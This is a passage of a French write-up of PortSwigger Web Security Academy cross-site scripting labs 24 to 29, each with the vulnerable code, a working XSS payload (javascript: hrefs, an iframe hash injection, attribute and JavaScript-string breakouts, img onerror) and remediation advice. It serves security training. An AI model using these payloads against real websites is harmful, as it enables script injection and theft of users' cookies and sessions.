Le navigateur ferme la balise <img> au premier ", interprète <svg onload=alert(1)> comme une balise SVG valide et exécute alert(1) → lab résolu ✅
Remédiation :
- Ne jamais utiliser
document.writeavec des données contrôlées par l'utilisateur. - Encoder les données avant de les injecter dans le DOM.
- Préférer des méthodes sûres comme
textContentau lieu deinnerHTMLoudocument.write.
Lab 24 — DOM XSS in jQuery anchor href attribute sink using location.search source¶
Catégorie : Cross-Site Scripting (XSS) — DOM-based
Difficulté : Apprentice
This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search. To solve this lab, make the "back" link alert document.cookie.
Contexte :
Le code jQuery de la page de feedback ressemble à :
$(function() {
$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
Il prend le paramètre returnPath de l'URL et le place directement dans l'attribut href du lien "back". Si on passe javascript:... comme valeur, le navigateur exécutera ce code quand l'utilisateur cliquera sur le lien.
Résolution :
Accéder à la page de feedback avec le paramètre returnPath contenant un pseudo-protocole JavaScript :
/feedback?returnPath=javascript:alert(document.cookie)
Puis cliquer sur le lien "Back" de la page. Le navigateur interprète le href comme une URL javascript: et exécute alert(document.cookie) → lab résolu ✅
Remédiation :
- Valider que les valeurs injectées dans des attributs
hrefcommencent parhttp://ouhttps://. - Ne jamais autoriser les pseudo-protocoles
javascript:oudata:dans des URLs contrôlées par l'utilisateur.
Lab 25 — DOM XSS in jQuery selector sink using a hashchange event¶
Catégorie : Cross-Site Scripting (XSS) — DOM-based
Difficulté : Apprentice
This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property. To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.
Contexte :
Le code vulnérable ressemble à :
$(window).on('hashchange', function() {
var post = $('section.blog-list h2:contains(' + decodeURIComponent(location.hash.slice(1)) + ')');
post.get(0).scrollIntoView();
});
$() avec une chaîne contrôlée par l'utilisateur peut créer des éléments HTML si la chaîne ressemble à du HTML — c'est un sink dangereux dans les anciennes versions de jQuery.
Résolution :
On ne peut pas déclencher un hashchange depuis la même page (la victime ne va pas modifier l'URL manuellement). Il faut donc utiliser le serveur d'exploit pour envoyer un <iframe> qui charge la page cible et modifie le hash après chargement via onload :
<iframe src="https://LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
Quand l'iframe charge, onload ajoute <img src=x onerror=print()> au hash. jQuery l'interprète comme un sélecteur HTML, crée l'élément <img>, tente de charger src=x (qui échoue), et déclenche onerror=print() → lab résolu ✅
Deliver to victim depuis l'exploit server pour valider.
Remédiation :
- Mettre à jour jQuery vers une version récente (le comportement de
$()avec du HTML a été restreint). - Ne jamais passer
location.hashoulocation.searchdirectement dans le sélecteur$().
Lab 26 — Reflected XSS into attribute with angle brackets HTML-encoded¶
Catégorie : Cross-Site Scripting (XSS)
Difficulté : Apprentice
This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.
Contexte :
Le site encode les caractères < et > en < et >, ce qui empêche d'injecter des balises HTML. Cependant, la valeur de recherche est réinjectée à l'intérieur d'un attribut HTML existant, par exemple :
<input type="text" value="VALEUR_RECHERCHE">
On n'a pas besoin de <> pour sortir de l'attribut — un simple " suffit à fermer la valeur, puis on ajoute un nouvel attribut directement.
Résolution :
Dans le champ de recherche, injecter :
" onmouseover="alert(1)
Ce qui produit dans le HTML :
<input type="text" value="" onmouseover="alert(1)">
Il suffit de passer la souris sur le champ de recherche pour déclencher alert(1) → lab résolu ✅
Remédiation :
- Encoder les guillemets (
"→") dans les valeurs d'attributs HTML. - Utiliser des guillemets pour délimiter tous les attributs (pas de valeurs non quotées).
Lab 27 — Stored XSS into anchor href attribute with double quotes HTML-encoded¶
Catégorie : Cross-Site Scripting (XSS)
Difficulté : Apprentice
This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.
Contexte :
Dans le formulaire de commentaire, le champ Website est injecté dans l'attribut href du lien auteur :
<a href="VALEUR_WEBSITE">Nom auteur</a>
Les guillemets doubles " sont encodés, donc on ne peut pas sortir de l'attribut de cette façon. Mais le navigateur accepte les pseudo-protocoles comme javascript: directement dans un href — aucun <> ni " n'est nécessaire.
Résolution :
Dans le champ Website du formulaire de commentaire, entrer :
javascript:alert(1)
Le site stocke cette valeur et l'injecte dans le href du nom d'auteur :
<a href="javascript:alert(1)">Nom auteur</a>
Quand un visiteur clique sur le nom de l'auteur du commentaire, alert(1) s'exécute → lab résolu ✅
Remédiation :
- Valider que les URLs soumises dans le champ Website commencent par
http://ouhttps://. - Rejeter les pseudo-protocoles
javascript:etdata:. - Encoder la sortie même dans les attributs
href.
Lab 28 — DOM XSS in innerHTML sink using source location.search¶
Catégorie : Cross-Site Scripting (XSS) — DOM-based
Difficulté : Apprentice
This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search. To solve this lab, perform a cross-site scripting attack that calls the alert function.
Contexte :
Le code vulnérable ressemble à :
document.getElementById('searchMessage').innerHTML = location.search.slice(1);
innerHTML interprète la valeur comme du HTML, mais pas les balises <script> (elles ne sont pas exécutées via innerHTML). Il faut donc utiliser un élément HTML qui déclenche du JavaScript sans <script>, comme une balise <img> avec un handler onerror.
Résolution :
Dans le champ de recherche, injecter :
<img src=1 onerror=alert(1)>
Ce qui produit dans le DOM :
<div id="searchMessage"><img src=1 onerror=alert(1)></div>
Le navigateur tente de charger l'image depuis src=1 (qui échoue), ce qui déclenche le handler onerror et exécute alert(1) → lab résolu ✅
Remédiation :
- Ne jamais assigner de données utilisateur à
innerHTML— utilisertextContentà la place. - Encoder les sorties HTML avant injection dans le DOM.
- Mettre en place une
Content-Security-Policyqui bloque les handlers inline.
Lab 29 — Reflected XSS into a JavaScript string with angle brackets HTML encoded¶
Catégorie : Cross-Site Scripting (XSS)
Difficulté : Apprentice
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are HTML encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
Contexte :
La valeur de recherche est réinjectée à l'intérieur d'une chaîne JavaScript dans un <script> de la page, par exemple :
<script>
var searchTerms = 'VALEUR_RECHERCHE';
...
</script>
Les < et > sont encodés en </>, donc impossible d'injecter une nouvelle balise. Mais on est à l'intérieur d'une chaîne JS — il suffit de la fermer avec un ', d'injecter du code, et de commenter la suite.
Résolution :
Dans le champ de recherche, injecter :
'-alert(1)-'
Ce qui produit dans le script :
var searchTerms = ''-alert(1)-'';
Le parser JS interprète '' (chaîne vide), puis -alert(1)- (expression valide qui appelle alert), puis '' (chaîne vide) → alert(1) s'exécute → lab résolu ✅
On peut aussi utiliser :
';alert(1)//
Ce qui donne :
var searchTerms = '';alert(1)//';
Remédiation :
- Encoder les apostrophes (
'→\') dans les chaînes JavaScript. - Ne jamais injecter de données utilisateur directement dans un bloc
<script>. - Utiliser
JSON.stringify()pour passer des valeurs dans le JS côté serveur.